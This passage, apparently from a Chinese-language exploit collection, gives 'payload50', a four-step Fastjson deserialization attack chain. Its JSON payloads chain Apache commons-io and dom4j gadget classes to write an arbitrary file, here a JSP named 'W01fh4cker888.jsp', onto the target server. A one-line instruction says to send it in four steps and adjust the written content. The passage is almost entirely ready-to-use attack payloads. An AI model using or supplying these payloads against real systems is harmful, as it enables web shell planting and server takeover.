 分四步打，自行修改写入内容。

`payload50`（组合拳）：

```json
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```json
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```json
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```json
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker888.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}
```

![image-20231022115419944](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231022115419944.png)
